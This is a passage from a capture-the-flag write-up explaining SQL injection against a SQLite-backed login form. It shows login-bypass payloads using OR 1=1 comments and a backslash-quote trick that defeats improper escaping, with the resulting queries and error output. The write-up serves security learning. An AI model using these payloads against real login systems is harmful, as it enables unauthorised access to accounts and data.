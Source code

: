 ##### so our SQL query is turned to something like this
```sql
username="' or 1=1 -- -" AND password = test
```

##### that is why the `Ups! Wrong Creds!` message pop up because it surrounds the payload with either `'` or `"` depends on out input but why it triggered a server error when we used `'"`  although the payload will become like this  , the user name value is the single quote which is escaped (or not we will see) and double quote it should say `Ups! Wrong Creds!`
```sql 
username = '\'"' AND password = 'aa'
```

##### if we run the local instance we will find the error says 
```python
sqlite3.OperationalError: unrecognized token: ""' AND password = 'aa'"
```

##### it seems that the single quote is not escaped , if we checked how SQLite escape single quote  it will be by just two single quotes and the back-slash is treated as normal char
```
'' => escaped 
\' => not escaped
```

##### lets try to make a new SQLi payload 
![Screenshot_20230724_214859](https://github.com/kiro6/writeups-ctfs/assets/57776872/1642de99-3591-428e-92fe-9167c73698e5)

##### a new error means progress it actually worked we could bypass the first check if the query return none 

##### if we run our local instance and debugged to print the query will be like this 
```python
username = '"\' OR 1=1 -- -' AND password = 'aa'
```
##### the user name value will be `"\` and then use `or 1=1 -- -`  



##### OR we can inject it like this 
![Screenshot_20230724_234210](https://github.com/kiro6/writeups-ctfs/assets/57776872/ca7611bf-3096-47a9-85b4-d531de46a6df)

##### the query will be like this 
```python
username = '"\'' AND password = ' OR 1=1 -- -'
```
##### while SQLite make  `''` escaped  the username value is `"\'' AND password = ` and we can control the rest of the query 
